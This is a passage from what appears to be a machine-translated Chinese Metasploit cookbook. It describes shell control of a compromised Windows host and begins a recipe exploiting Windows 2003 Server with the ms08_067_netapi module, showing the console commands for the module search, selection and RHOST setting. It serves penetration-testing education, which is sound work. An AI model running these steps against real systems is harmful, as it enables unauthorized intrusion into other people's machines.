 ## 还有更多。。。

接下来呢？shell 访问如何为我们提供对目标的控制。

### 完全控制目标

现在我们已经与目标机器建立了 shell 连接，我们可以使用命令提示符完全访问目标机器。现在，我们可以通过使用常见的 DOS 命令来探索目标机器。一些基本操作包括目录列表、复制文件和文件夹、创建用户代理等。

# 在 Windows 2003 服务器上进行渗透测试

在前面的方法中，我们分析了如何使用 `dcom`漏洞造成缓冲区溢出并利用我们的 Windows 目标进行攻击。在本食谱中，我们将关注一个相似但逻辑不同的环境。Windows 2003 服务器是 Microsoft 最广泛使用的基于企业的操作系统之一。在这个配方中，我们将看到如何利用 Windows2003 服务器。Windows 2003 服务器的更新版本已修补，因此 `dcom`漏洞在其中不起作用。因此，我们将在此配方中尝试不同的漏洞。我们将使用 `netapi32.dll`漏洞。首先，我们将分析攻击过程，然后分析此漏洞的原因。让我们开始渗透测试。

## 准备好了吗

首先，让我们启动 `msfconsole`并对目标进行快速扫描。始终建议您按照顺序执行所有步骤，以确保它加强了基础。下一步将与我们在前两个食谱中讨论的相同。唯一的区别在于使用漏洞。

## 怎么做。。。

要在 Windows 2003 服务器上执行渗透测试，请执行以下步骤：

1.  Let us start with searching for `netapi`. This will list any available exploit related to `netapi` in the Metasploit directory:

    ```
    msf > search netapi
    Matching Modules
    ================
    Name Disclosure Date Rank
    ---- --------------- ---- exploit/windows/smb/ms03_049_netapi 2003-11-11 good
    exploit/windows/smb/ms06_040_netapi 2006-08-08 good
    exploit/windows/smb/ms06_070_wkssvc 2006-11-14 manual
    exploit/windows/smb/ms08_067_netapi 2008-10-28 great 
    ```

    正如我们所看到的，在这四个结果中，最后一个漏洞的评级很高。因此，我们更愿意使用此漏洞。

2.  We will set up `RHOST` as our target Windows 2003 Server:

    ```
    msf > use exploit/windows/smb/ms08_067_netapi
    msf exploit(ms08_067_netapi) > show options
    Module options (exploit/windows/smb/ms08_067_netapi):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    RHOST yes The target address
    RPORT 445 yes Set the SMB service port
    SMBPIPE BROWSER yes The pipe name to use (BROWSER, SRVSVC)
    Exploit target:
    Id Name
    -- ----
    0 Automatic Targeting
    msf exploit(ms08_067_netapi) > set RHOST 192.168.56.102
    RHOST => 192.168.56.102 
    ```
